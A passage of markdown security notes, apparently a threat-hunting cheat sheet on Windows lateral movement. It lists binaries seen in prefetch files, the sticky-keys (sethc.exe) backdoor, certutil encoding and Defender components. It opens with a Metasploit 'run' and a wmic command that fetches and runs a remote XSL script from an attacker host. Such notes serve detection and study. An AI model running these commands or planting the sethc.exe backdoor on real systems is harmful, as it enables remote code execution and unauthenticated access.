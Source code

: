     set SRVHOST 192.168.1.107
    run
    ```
    ```
    wmic os get /FORMAT:"http://192.168.1.107:9996/g8gkv.xsl"
    ```
- Prefetch Files Created
  - AT.EXE (scheduled jobs/tasks)
  - SCHTASKS.EXE (scheduled jobs/tasks)
  - CMD.EXE (Obviously common, but I included it anyway. Especially if the prefetch hash doesn't match the legitimate ones. )
  - NET.EXE (net view, etc.)
  - NET1.EXE (net use)
  - NETSTAT.EXE (netstat -ano)
  - REG.EXE (reg query and reg add)
  - SC.EXE (interact with services)
  - SYSTEMINFO.EXE (system profiling)
  - TASKKILL.EXE (kill running processes)
  - TASKLIST.EXE (tasklist /v)
  - POWERSHELL.EXE (interact with powershell)
  - NBTSTAT.EXE (profile)
  - XCOPY.EXE (copy files around)
  - NSLOOKUP.EXE (profile)
  - QUSER.EXE (profile)
  - RAR.EXE (Exfil or Tool dropping) * And other archive utilities (Ex. 7zip)
  - PING.EXE (check connectivity)
  - FTP.EXE (download/upload)
  - Various Sysinternal tools (Psexec, sdelete, etc.)
  - BITSADMIN.EXE (download/upload)
  - ROUTE.EXE (adding persistent routes)
  - REGSVR32.EXE (services)
  - MAKECAB.EXE (compression before exfil)
  - Originally form: <http://www.sysforensics.org/2014/01/lateral-movement/>. Link is no longer working
- Runonce.exe, msdt.exe, Openwith.exe
  - <https://medium.com/@mattharr0ey/lolbas-blowing-in-the-binaries-path-c480176cc636>
- sethc.exe (Sticky keys)
  - By replacing the “Sticky Keys” binary, C:\Windows\System32\sethc.exe, with the Windows Command Processor cmd.exe, the attackers then accessed a privileged Windows console session without authenticating to the system. “Sticky Keys” is an accessibility feature that allows users to activate Windows modifier keys without pressing more than one key at a time. Pressing the shift key five times activates “Sticky Keys” and executes sethc.exe, which, when replaced with cmd.exe, opens a System-level command shell. From this shell, the attackers can execute arbitrary Windows commands, including adding or modifying accounts on the system, even from the logon screen (pre-authentication).
- Base64 encode / decode
    ```
    certutil -encode inputfile outputfile
    certutil -decode inputfile outputfile
    ```
- `mpengine.dll` (+ mpasbase.vdm mpasdlta.vdm   mpavbase.vdm mpavdlta.vdm)
  - Windows Defender - Microsoft Malware Protection Engine
  - Take buffer of data and decide of malicious or not
- `MPSigStub.exe`
  - Microsoft Malware Protection Signatuee Update Stub  

